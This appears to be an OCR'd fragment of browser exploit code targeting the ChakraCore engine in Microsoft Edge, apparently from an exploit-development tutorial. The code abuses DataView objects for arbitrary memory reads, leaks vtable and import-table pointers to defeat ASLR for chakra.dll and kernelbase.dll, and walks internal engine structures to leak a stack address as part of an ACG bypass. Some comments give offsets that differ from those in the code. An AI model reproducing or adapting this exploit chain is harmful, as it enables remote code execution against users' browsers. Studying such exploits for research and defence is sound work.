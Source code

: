 ```html
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    document.write("[+] DataView object 2 leaked vtable from chakra.dll: 0x" + hex(vtableHigh) + hex(vtableLo));
    document.write("<br>");

    // Store the base of chakra.dll
    chakraLo = vtableLo - 0x5d0bf8;
    chakraHigh = vtableHigh;

    // Print update
    document.write("[+] chakra.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));
    document.write("<br>");

    // Leak a pointer to kernelbase.dll (KERNELBASE!DuplicateHandle) from the IAT of chakra.dll
    // chakra+0x5ee2b8 points to KERNELBASE!DuplicateHandle
    kernelbaseLeak = read64(chakraLo+0x5ee2b8, chakraHigh);

    // KERNELBASE!DuplicateHandle is 0x18de0 away from kernelbase.dll's base address
    kernelbaseLo = kernelbaseLeak[0]-0x18de0;
    kernelbaseHigh = kernelbaseLeak[1];

    // Store the pointer to KERNELBASE!DuplicateHandle (needed for our ACG bypass) into a more aptly named variable
    var duplicateHandle = new Uint32Array(0x4);
    duplicateHandle[0] = kernelbaseLeak[0];
    duplicateHandle[1] = kernelbaseLeak[1];

    // Print update
    document.write("[+] kernelbase.dll base address: 0x" + hex(kernelbaseHigh) + hex(kernelbaseLo));
    document.write("<br>");

    // Print update with our type pointer
    document.write("[+] type pointer: 0x" + hex(typeHigh) + hex(typeLo));
    document.write("<br>");

    // Arbitrary read to get the javascriptLibrary pointer (offset of 0x8 from type)
    javascriptLibrary = read64(typeLo+8, typeHigh);

    // Arbitrary read to get the scriptContext pointer (offset 0x450 from javascriptLibrary. Found this manually)
    scriptContext = read64(javascriptLibrary[0]+0x430, javascriptLibrary[1])

    // Arbitrary read to get the threadContext pointer (offset 0x3b8)
    threadContext = read64(scriptContext[0]+0x5c0, scriptContext[1]);

    // Leak a pointer to a pointer on the stack from threadContext at offset 0x8f0
    // https://bugs.chromium.org/p/project-zero/issues/detail?id=1360
    // Offsets are slightly different (0x8f0 and 0x8f8 to leak stack addresses)
```